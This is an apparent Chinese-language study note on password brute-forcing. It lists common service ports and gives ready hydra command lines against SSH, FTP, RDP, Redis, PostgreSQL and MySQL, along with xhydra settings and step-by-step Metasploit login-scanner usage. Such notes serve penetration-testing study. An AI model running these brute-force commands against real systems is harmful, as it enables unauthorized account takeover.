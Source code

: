 ```yaml
---
title: web安全----穷举篇
---
```

[toc]
## 文件的穷举
- pker多线程后台极速扫描工具
- 御剑
- dirbuster
- 以上软件的具体方法看上一篇内容
## 常见端口的服务
- http 80
- https 443
- ftp 21
- ssh 22
- mysql 3306
- mssql 1433 微软的sqlserver数据库
- rsync 873 本地主机与远程主机同步的端口
- oracle 1521
- mongo 28017
- redis 6379
- tomcat 8080 小型轻量级应用服务器
- smtp 25
- POP3 110
- dns 53
- telent 23 远程登录服务
- vnc 5900
- pacnywhere 5632
- weblogic 7001 javaEE的中间件
- Jenkins 8080 8089 域名管理
- SNMP 161
- Zabbiox 8069
- elasticsearch 9200 9300 搜索引擎
- rdp 3389

## 常见端口服务穷举
### 穷举爆破神奇hydra
- 参数
  > -R 继续从上次进度接着破解
  > -S 采用SSL链接
  > -s PORT 可以通过这个参数指定费默认端口
  > -l LOGIN 指定破解的用户，对特定用户破解
  > -L FILE 指定用户名字典
  > -p PASS 指定密码皮杰
  > -P 指定密码字典
  > -e ns 可选选项，n:空密码试探，s:指定用户和密码试探,r:反向登录
  > -C FILE 使用冒号分割格式，例如： 登录名：密码，可以代替-L/-P参数
  > -M FILE 指定目标列表文件一行一条
  > -o FILE 指定结果输出文件
  > -f 在使用-M后，找到第一对登录名或者密码的时候终止破解
  > -t TASKS 同事运行的线程数，默认为16
  > -w TIME 设置最大的超时的时间，默认30s
  > -v/-V显示详细的过程

- ssh
  > hydra -L /root/user -P /root/passwd ssh://192.168.1.0 -f -o /root/crack.txt -V

- ftp
  > hydra -L /root/user -P /root/passwd ftp://192.168.1.0 -f -o /root/crack.txt -V

- rdp
  > hydra -L /root/user -P /root/passwd rdp://192.168.1.0 -f -o /root/crack.txt -V

- redis
  > hydra -P /root/passlist.txt -e nsr -t 16 192.168.0.101 redis

- postgresql
  > hydra -P /root/passlist.txt -e nsr -t 16 192.168.0.101 postgresql

- 指定多个ip
  > hydra -L /root/user -P /root/passlist -M /root/ip.txt  -V -o /root/crack mysql -t 16

### 可视化工具xhydra详解
- 1、single Target中指定ip
- 2、Target List 指定列表
- 3、port 指定端口，如果没有指定会默认选择
- 4、protocol 选择fuwu
- 5、passwords选择框中可以设置登录名和密码.或者爆破文件
- 6、Tuning选项卡中可以设置线程数（tasks）和超时时间
- 7、Tuning选项卡中可以设置代理（proxy）
- 8、Specific选项卡时代理文件的设置，一般不用设置
- 9、最后点击start选项卡下面的start按钮开始爆破

### kali metasploit穷举模块使用
- 模块搜索 
  > search login

- 爆破模块
  > auxiliary/scanner/ftp/ftp_login
  > auxiliary/scanner/ssh/ssh_login
  > auxiliary/scanner/telnet/telnet_login
  > auxiliary/scanner/smb/smb_login
  > auxiliary/scanner/mssql/mssql_login
  > auxiliary/scanner/mysql/mysql_login
  > auxiliary/scanner/oracle/oracle_login
  > auxiliary/scanner/postgres/postgres_login
  > auxiliary/scanner/vnc/vnc_login
  > auxiliary/scanner/pcanywhere/pcanywhere_login
  > auxiliary/scanner/snmp/snmp_login

- 用法
  > 1、msfconsole
  > 2、search ssh             //搜索模块
  > 3、use auxiliary/scanner/ssh/ssh_login       //使用模块
  > 4、info   查看模块信息
  > 5、set RHOSTS ip地址           
  > 6、set USERNAME/USER_FILE
  > 7、set PASSWORD/PASS_FILE
  > 8、set RPORT                   //设置端口
  > 9、show option                //查看设置
  > 10、set STOP_ON_SUCCESS true  //爆破成功后停止
  > 11、set THREADS 5       //设置线程
  > 12、run 、exploit  //运行
  > DB_ALL_PASS        将当前数据库中的所有密码添加到列表中
  > back   返回